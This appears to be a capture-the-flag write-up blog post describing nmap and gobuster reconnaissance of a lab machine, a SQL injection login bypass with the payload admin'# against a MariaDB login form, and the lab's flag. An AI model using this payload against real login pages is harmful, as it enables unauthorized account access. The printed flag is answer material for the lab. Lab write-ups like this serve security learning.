

In this blog post, we will walk through the process of enumerating and exploiting a misconfigured web application running on an Apache server. Our goal is to gain unauthorized access using SQL Injection and retrieve a hidden flag. This guide covers reconnaissance, discovering a login page, performing SQL Injection, and finally, extracting the flag.

## Reconnaissance

The first step in our penetration testing process is to scan the target machine `10.129.109.132` for open ports and running services using `nmap`.

```bash
└─$ sudo nmap -sV -sC 10.129.109.132                             
[sudo] password for w1thre: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 11:06 WIB
Nmap scan report for 10.129.109.132
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.26 seconds
```

### Analysis

- The web server is running on **port 80** with **Apache 2.4.38 (Debian)**.
- The **HTTP title is "Login"**, indicating a potential authentication page.

### Directory Enumeration with Gobuster

To identify hidden directories or files, we use `gobuster` to scan for common paths. In this machine I realized we don’t need to do directory enumeration.

```bash
└─$ gobuster dir --url http://10.129.109.132/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.109.132/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 317] [--> http://10.129.109.132/images/]
/css                  (Status: 301) [Size: 314] [--> http://10.129.109.132/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.129.109.132/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.109.132/vendor/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.109.132/fonts/]
Progress: 15883 / 87665 (18.12%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 15893 / 87665 (18.13%)
===============================================================
Finished
===============================================================
```

### Analysis

- Several static directories (`/images`, `/css`, `/js`, `/vendor`, `/fonts`) were discovered, but none seem particularly interesting for exploitation.
- Since the web page has a **login form**, we proceed to test it for vulnerabilities.

## Foothold

Upon visiting the main page, we see a **login form** that requires a username and password:



### SQL Injection Attack

We suspect the login form may be vulnerable to **SQL Injection**. To test this, we input the following payload in the **username field**:

```
admin'#
```

The full SQL query executed by the backend might be structured as follows:

```sql
SELECT * FROM users WHERE username='admin'#' AND password='password';
```

### Explanation:

- The **`#`** symbol in SQL is a **comment operator**, which effectively **ignores everything after it**. We use this comment instead the `--` because this machine using MariaDB.
- This means the **password check is bypassed**, allowing us to log in as `admin` without knowing the actual password.

## Flag

After logging in successfully, the flag is:

```bash
e3d0796d002a446c0e622226f42e9672
```